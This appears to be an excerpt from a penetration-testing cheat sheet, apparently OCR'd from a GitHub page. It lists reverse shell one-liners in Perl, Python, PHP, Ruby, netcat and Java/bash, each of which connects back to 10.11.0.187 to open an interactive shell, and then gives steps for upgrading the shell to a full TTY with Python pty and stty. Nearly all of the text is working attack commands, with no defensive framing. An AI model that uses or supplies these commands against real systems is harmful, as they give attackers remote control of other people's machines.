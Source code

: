         * perl
            perl -e 'use Socket;$i="10.11.0.187";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'

        * python
            python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.11.0.187",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);''

        * php
            php -r '$sock=fsockopen("10.11.0.187",1234);exec("/bin/sh -i <&3 >&3 2>&3");'

        * ruby
            ruby -rsocket -e'f=TCPSocket.open("10.11.0.187",1234).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'

        * netcat
            nc -e /bin/sh 10.11.0.187 1234
            rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.11.0.187 1234 >/tmp/f

        * java
            r = Runtime.getRuntime()
            p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/10.11.0.187/2002;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
            p.waitFor()
        ```

    * real tty (http://pentestmonkey.net/blog/post-exploitation-without-a-tty)
        ```
        * python
            python -c 'import pty; pty.spawn("/bin/bash");'

        * sh
            /bin/sh -i

        * perl
            perl -e 'exec "/bin/sh";'
        ```
    * stty (https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/)
        ```
        # In reverse shell
        $ python -c 'import pty; pty.spawn("/bin/bash")'
        Ctrl-Z

        # In Kali
        $ stty raw -echo
        $ fg

        # In reverse shell
        $ reset
        $ export SHELL=bash
        $ export TERM=xterm-256color
        $ stty rows <num> columns <cols>
        ```
